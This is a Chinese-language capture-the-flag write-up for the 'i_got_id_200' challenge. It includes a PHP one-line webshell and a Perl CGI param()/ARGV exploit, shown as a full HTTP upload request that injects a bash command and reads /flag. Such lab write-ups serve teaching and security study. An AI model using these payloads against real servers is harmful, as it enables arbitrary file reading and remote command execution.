 # i_got_id_200

## 解题思路

- 首先打开网页，发现有三个页面，点开第一个‘Hello World’，没啥东西；点开第二个‘Forms’，里面有一个Name一个Age，填了东西发现没有注入点，只是单纯把我们的输入给打印在网页上而已（虽然确实是从服务器发来的，但不进行数据库操作，只是单纯的复制粘贴）

- 打开第三个页面，发现是个上传框，想到文件上传漏洞，构建一句话木马尝试一下：

    `<?php @eval($_POST['hacker']); ?>`

- 结果没有成功执行，它只是把我的这句代码打出到屏幕上而已...

- 看别人的wp，发现有个新的知识点：

    - param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的接收变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。对正常的上传文件进行修改,可以达到读取任意文件的目的

    - 而在网页上显示输入内容很有可能就是用了param()函数来实现，例如：

        ```php
        use strict;
        use warnings; 
        use CGI;
        my $cgi= CGI->new;
        if ( $cgi->upload( 'file' ) ) { 
            my $file= $cgi->param( 'file' );
            while ( <$file> ) { print "$_"; }
        } 
        ```

- 我们试一下，看看是不是param()的问题：看到 `/cgi-bin/forms.pl` ，猜想代码放在 `/var/www/cgi-bin/file.pl` 里(/var/www/...，国际惯例了，咱们自己的139邮箱和hecaiyun都是/var/www/...的结构)；

    - 利用 `/bin/bash` 读取文件（很神奇，明明不能执行语句只能读文件名，但是这句话居然也可以执行），构造payload：

    ```r
    POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/|  HTTP/1.1
    Host: 111.198.29.45:49113
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------18467633426500
    Content-Length: 427
    Origin: http://111.198.29.45:49113
    Connection: close
    Referer: http://111.198.29.45:49113/cgi-bin/file.pl
    Upgrade-Insecure-Requests: 1

    -----------------------------18467633426500
    Content-Disposition: form-data; name="file"
    Content-Type: application/octet-stream

    ARGV
    -----------------------------18467633426500
    Content-Disposition: form-data; name="file"; filename="1.php"
    Content-Type: image/jpeg


    -----------------------------18467633426500
    Content-Disposition: form-data; name="Submit!"

    Submit!
    -----------------------------18467633426500--
    ```

    服务器回应：

    ```html
    bin
    <br />boot
    <br />dev
    <br />etc
    <br />flag
    <br />home
    <br />lib
    <br />lib64
    <br />media
    <br />mnt
    <br />opt
    <br />proc
    <br />root
    <br />run
    <br />sbin
    <br />srv
    <br />sys
    <br />tmp
    <br />usr
    <br />var
    <br /></body></html>
    ```

    找到了，把 `/bin/bash...` 改成 `/flag` ，请求，服务器回复flag，搞定！

- 其实也可以直接一上来就 `/flag` ，也能试出来。

## 待解决的问题：

- `/bin/bash ...` 到底是什么语句？为什么能被视为文件名呢？